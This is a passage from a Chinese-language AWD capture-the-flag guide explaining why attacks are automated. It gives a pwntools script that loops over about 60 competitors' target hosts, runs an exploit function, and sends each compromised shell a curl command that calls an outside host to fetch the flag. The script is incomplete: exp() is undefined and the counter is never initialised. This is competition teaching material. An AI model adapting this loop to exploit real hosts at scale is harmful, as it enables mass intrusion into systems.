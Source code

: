 [https://github.com/david942j/seccomp-tools](https://github.com/david942j/seccomp-tools)

## 攻击技巧

### 自动化脚本

awd 赛场上一般都有很多队伍的靶机，多的有大概 50~60 个，而一轮也就 5~10 分钟，这会导致我们如果跟原来做 pwn 题一样一个个打然后提交时间根本不够，甚至都没有时间来修漏洞，所以我们需要一些自动脚本来辅助我们自动攻击所有靶机拿到 flag（笔者第一次 awd 的惨痛教训）

例：

```plain
from pwn import *

#context(arch='amd64', os='linux',log_level='debug')#
flag1=[]
file_name = './pwn'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
li = lambda x : print('\x1b[01;38;5;214m' + str(x) + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + str(x) + '\x1b[0m')

elf = ELF(file_name)

def dbg():
    gdb.attach(r)
    pause() 
def dbgg():
    raw_input()

for x in range(60):
    try:
        ip = "10.50.{}.4".format(x+2)
        prot = '1234'
            # print ip
        r = remote(ip,int(prot))
        #攻击脚本
        exp()
        payload = "curl http://10.0.1.2?token=CRUTRZIW"#根据主办方的要求来获取 flag
        r.sendline(payload)
        sleep(1)#在一些靶机多的环境下最好加几个 sleep，防止卡住
        sleep(1)
        flag = r.recv(0x20)
        print(str(flag))
        flag1.append(flag)
        index+=1
    except:
            print(ip)
            r.close()
print(flag1)
print("本轮共拿到"+str(index)+"个队伍的 flag")
r.interactive()
```

